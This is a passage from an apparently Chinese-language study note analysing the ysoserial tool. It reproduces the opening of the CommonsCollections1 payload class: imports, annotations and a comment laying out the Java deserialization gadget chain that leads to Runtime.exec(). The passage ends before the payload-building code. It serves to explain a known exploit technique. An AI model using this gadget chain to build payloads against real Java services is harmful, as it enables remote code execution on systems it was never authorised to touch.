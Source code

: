 ## 2. Payload

1. ysoserial 主要分为两个部分，即 payload 和 exploit。先从 Payload 入手，以 CC1（`CommonsCollections1`）为例分析一下其代码逻辑：
    ```java
    package ysoserial.payloads;
    
    import java.lang.reflect.InvocationHandler;
    import java.util.HashMap;
    import java.util.Map;
    
    import org.apache.commons.collections.Transformer;
    import org.apache.commons.collections.functors.ChainedTransformer;
    import org.apache.commons.collections.functors.ConstantTransformer;
    import org.apache.commons.collections.functors.InvokerTransformer;
    import org.apache.commons.collections.map.LazyMap;
    
    import ysoserial.payloads.annotation.Authors;
    import ysoserial.payloads.annotation.Dependencies;
    import ysoserial.payloads.annotation.PayloadTest;
    import ysoserial.payloads.util.Gadgets;
    import ysoserial.payloads.util.JavaVersion;
    import ysoserial.payloads.util.PayloadRunner;
    import ysoserial.payloads.util.Reflections;
    
    /*
    	Gadget chain:
    		ObjectInputStream.readObject()
    			AnnotationInvocationHandler.readObject()
    				Map(Proxy).entrySet()
    					AnnotationInvocationHandler.invoke()
    						LazyMap.get()
    							ChainedTransformer.transform()
    								ConstantTransformer.transform()
    								InvokerTransformer.transform()
    									Method.invoke()
    										Class.getMethod()
    								InvokerTransformer.transform()
    									Method.invoke()
    										Runtime.getRuntime()
    								InvokerTransformer.transform()
    									Method.invoke()
    										Runtime.exec()
    
    	Requires:
    		commons-collections
     */
    @SuppressWarnings({"rawtypes", "unchecked"})
    @PayloadTest ( precondition = "isApplicableJavaVersion")
    @Dependencies({"commons-collections:commons-collections:3.1"})
    @Authors({ Authors.FROHOFF })
    public class CommonsCollections1 extends PayloadRunner implements ObjectPayload<InvocationHandler> {
    